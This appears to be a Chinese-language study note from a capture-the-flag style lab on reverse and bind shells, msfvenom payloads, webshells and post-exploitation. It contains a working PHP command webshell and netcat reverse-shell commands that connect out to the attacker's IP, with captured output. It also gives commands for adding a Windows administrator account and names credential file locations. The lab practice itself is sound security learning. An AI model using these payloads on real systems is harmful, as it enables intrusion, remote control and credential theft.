 # nc shell 穩定
默認情況下，這些 shell 非常不穩定。按 Ctrl + C 殺死整個事情。它們是非交互式的，並且經常出現奇怪的格式錯誤。這是因為 netcat “shell”實際上是在終端內運行的進程，而不是本身就是真正的終端。
## 1. python
```
第一步:python -c 'import pty;pty.spawn("/bin/bash")'

第二步是：export TERM=xterm——這將使我們能夠訪問術語命令

最後（也是最重要的）我們將使用 Ctrl + Z 將 shell 設置為背景。回到我們自己的終端，使用 stty raw -echo; fg 這做了兩件事：首先，它關閉了我們自己的終端回顯（這使我們可以訪問選項卡自動完成、箭頭鍵和 Ctrl + C 來終止進程）。然後它將 shell 置於前台
```
請注意，如果 shell 死機，您自己的終端中的任何輸入都將不可見（由於禁用了終端回顯）。要解決此問題，請鍵入`reset`並按 Enter。

## 2.rlwrap
rlwrap 是一個程序，簡單來說，它可以讓我們在收到 shell 後立即訪問歷史記錄、選項卡自動完成和箭頭鍵
```
rlwrap nc -lvnp <port>
```
這種技術在處理 Windows shell 時特別有用

## socat

## msfvenom
`msfvenom -p <PAYLOAD> <OPTIONS>`
-f <格式>
指定輸出格式。在這種情況下，這是一個可執行文件 (exe)
-o <文件>
生成的有效負載的輸出位置和文件名。

```
使用 msfvenom 時，了解命名系統的工作原理很重要。基本約定如下：

<OS>/<arch>/<payload>

例如：

linux/x86/shell_reverse_tcp

這將為 x86 Linux目標生成無階段反向 shell。

此約定的例外是 Windows 32 位目標。對於這些，沒有指定arch。例如：

windows/shell_reverse_tcp


對於 64 位 Windows 目標，arch 將被指定為普通 (x64)。


```

上面的示例中，使用的有效負載是shell_reverse_tcp. 這表明它是一個無階段的有效載荷。因為無階段有效載荷用下劃線 ( _) 表示。與此有效負載等效的分階段將是：
shell/reverse_tcp

分階段的有效載荷用另一個正斜杠 ( /) 表示。

此規則也適用於 Meterpreter 有效負載。Windows 64 位分段 Meterpreter 有效負載如下所示：

windows/x64/meterpreter/reverse_tcp

Linux 32 位無階段 Meterpreter 有效負載如下所示：

linux/x86/meterpreter_reverse_tcp
```
分階段的反向 shell 有效負載和無階段的反向 shell 有效負載。

分階段的有效負載分兩部分發送。第一部分稱為stager。這是一段直接在服務器本身上執行的代碼。它連接回等待的偵聽器，但它本身實際上並不包含任何反向 shell 代碼。相反，它連接到偵聽器並使用連接來加載真正的有效負載，直接執行它並防止它接觸可能被傳統反病毒解決方案捕獲的磁盤。因此，有效負載分為兩部分——一個小的初始階段，然後是在階段啟動時下載的更大的反向 shell 代碼。分階段的有效負載需要一個特殊的監聽器——通常是 Metasploit 多/處理程序，將在下一個任務中介紹。
無階段有效載荷更常見——這些是我們迄今為止一直在使用的。它們是完全獨立的，因為有一段代碼在執行時會立即將 shell 發送回等待的偵聽器。
無級有效載荷往往更易於使用和捕獲；但是，它們也更龐大，並且更容易被防病毒或入侵檢測程序發現和刪除。分階段的有效載荷更難使用，但初始階段要短得多，有時會被效率較低的防病毒軟件遺漏。現代防病毒解決方案還將利用反惡意軟件掃描接口 (AMSI) 來檢測負載，因為它由 stager 加載到內存中，從而使分階段的負載不如以前在該區域中的有效。
```

## webshell
“Webshel​​l”是一個通俗的術語，用於在網絡服務器（通常使用PHP或 ASP 等語言）中運行的腳本，該腳本在服務器上執行代碼。本質上，命令被輸入到網頁中——通過 HTML 表單，或者直接作為 URL 中的參數——然後由腳本執行，結果返回並寫入頁面。如果有防火牆，這將非常有用，或者甚至只是作為進入完全成熟的反向或綁定外殼的墊腳石。

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

這將在 URL 中獲取一個 GET 參數，並在系統上使用shell_exec(). 本質上，這意味著我們在 URL 中輸入的任何命令都?cmd=將在系統上執行——無論是 Windows 還是Linux。“pre”元素是為了確保結果在頁面上的格式正確。  

認情況下 Kali 上有多種 webshell 可用/usr/share/webshells   

多數通用的、特定於語言的（例如 PHP）反向 shell 是`為基於 Unix 的目標`（例如 Linux 網絡服務器）編寫的。`默認情況下，它們無法在 Windows 上運行。`   
   
`目標是 Windows 時`，通常最容易使用 web shell 獲取 RCE，或者使用 msfvenom 生成服務器語言的反向/綁定 shell。使用前一種方法，通常使用 URL 編碼的 `Powershell Reverse Shell` 來獲取 RCE。這將作為cmd參數複製到 URL 中


## 好的，我們有一個外殼。怎麼辦？
許多生成、發送和接收 shell 的方法。這些都有一個共同點，那就是它們往往是不穩定的和非交互的。即使是更容易穩定的 Unix 風格的 shell 也不理想。那麼，我們能做些什麼呢？
`Linux`
```
理想情況下，在Linux 上，我們會尋找機會訪問用戶帳戶。存儲在 的 SSH 密鑰/home/<user>/.ssh通常是執行此操作的理想方式。在 CTF 中，在盒子的某處發現憑證也不少見。一些漏洞還允許您添加自己的帳戶。特別是像Dirty C0w或可寫的 /etc/shadow 或 /etc/passwd 這樣的東西會很快讓你通過 SSH 訪問機器，假設 SSH 是打開的。
```
`windows`
```
Windows 上，選項通常更加有限。有時可以在註冊表中找到運行服務的密碼。例如，VNC 服務器經常將密碼以明文形式存儲在註冊表中。某些版本的 FileZilla FTP服務器還會在 XML 文件中的C:\Program Files\FileZilla Server\FileZilla Server.xml
 或C:\xampp\FileZilla Server\FileZilla Server.xml
```
 這些可以是 MD5 散列或純文本，具體取決於版本
 ```
 理想情況下，在 Windows 上，您將獲得以 SYSTEM 用戶身份運行的 shell，或以高權限運行的管理員帳戶。在這種情況下，可以簡單地將您自己的帳戶（在管理員組中）添加到計算機，然後通過 RDP、telnet、winexe、psexec、WinRM 或任何數量的其他方法登錄，具體取決於機器上運行的服務.

其語法如下：

net user <username> <password> /add

net localgroup administrators <username> /add
 ```

 理想情況下，我們總是希望升級為使用“正常”方法來訪問機器，因為這總是更容易用於進一步利用目標。















# task 13
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
```
## 嘗試將 webshell 上傳到Linux機器，然後使用命令：nc <LOCAL-IP> <PORT> -e /bin/bash將反向 shell 發送回您自己機器上的等待偵聽器。

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
```
上傳了一個webshell 

然後 http://10.10.195.47/uploads/webshell.php?cmd=nc -e /bin/sh 10.9.2.107 8888

payload = nc -e /bin/sh {kali ip} 8888

kali上 nc -nvlp 8888
```
## 導航到/usr/share/webshells/php/php-reverse-shell.phpKali 並更改 IP 和端口以將您的 tun0 IP 與自定義端口匹配。設置 netcat 監聽器，然後上傳並激活 shell。
```
上傳了php-reverse-shell.php
kali上 nc -nvlp 9999
```
## 使用任務 14 中的憑據通過 SSH登錄Linux機器。使用任務 8 中的技術來試驗綁定和反向 netcat shell。
```
kali : nv -nvlp 8888
mkfifo /tmp/f; nc 10.9.2.107 8888 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
```
shell@linux-shell-practice:~$ mkfifo /tmp/f; nc -lvnp 8888 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

┌──(kali㉿kali)-[~]
└─$ nc 10.10.195.47 8888                                                         1 ⨯
whoami
shell
```

在Linux機器上使用 Socat 練習反向和綁定 shell 。嘗試常規和特殊技術。

無需回答
查看所有的 Payloads並嘗試其他一些反向 shell 技術。嘗試分析它們，看看它們為什麼起作用。

無需回答
切換到 Windows虛擬機。嘗試上傳並激活php-reverse-shell. 這行得通嗎？

無需回答
在 Windows 目標上上傳 webshel​​l 並嘗試使用 Powershell 獲取反向 shell。

無需回答
網絡服務器以 SYSTEM 權限運行。創建一個新用戶並將其添加到“管理員”組，然後通過 RDP 或 WinRM 登錄。

無需回答
嘗試使用 socat 和 netcat 在 Windows 目標上獲取反向和綁定 shell。

無需回答
使用 msfvenom 創建一個 64 位 Windows Meterpreter shell 並將其上傳到 Windows Target。激活 shell 並使用 multi/handler 捕獲它。試用此 shell 的功能。

無需回答
為任一目標創建分階段和無階段的meterpreter shell。上傳並手動激活它們，用netcat捕獲 shell——這行得通嗎？